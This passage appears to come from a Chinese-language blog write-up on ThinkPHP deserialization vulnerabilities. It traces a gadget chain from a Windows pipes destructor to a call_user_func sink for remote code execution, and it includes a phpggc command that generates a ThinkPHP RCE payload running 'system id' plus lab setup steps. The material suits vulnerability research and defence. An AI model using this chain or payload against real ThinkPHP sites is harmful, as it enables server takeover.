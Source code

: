 ```
think\process\pipes\Windows#__destruct -->
think\process\pipes\Windows#removeFiles -->
file_exists --> 
think\model\Pivot#__toString --> 
think\model\Pivot#toJson --> 
think\model\Pivot#toArray --> 
$value->getAttr($attr) --> 
think\console\Output#__call --> 
think\console\Output#block --> 
think\console\Output#writeln --> 
think\console\Output#write --> 
$this->handle->write --> 
think\session\driver\Memcached#write --> 
$this->handler->set --> 
think\cache\driver\Memcache#set --> 
think\cache\driver\Memcache#has -->
$this->handler->get --> 
think\Request#get --> 
think\Request#input --> 
think\Request#filterValue --> 
call_user_fund($filter, $value)
```

ps: 该链子的前半部分可以使用FW1链子的前半部分 ,也就是

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call
```

## 5.1.x-5.2.x RCE

### 环境搭建

```
./phpggc ThinkPHP/RCE1 system id | base64 -w 0
```

```
composer create-project topthink/think=5.1.41 thinkphp5141  --prefer-dist
```

和之前一样,写入一个反序列化入口.

### 漏洞分析

首先,反序列化进入`think\process\pipes\Windows#__destruct`, 进入`removeFiles`方法

![image-20220120152925122](image-20220120152925122.png)
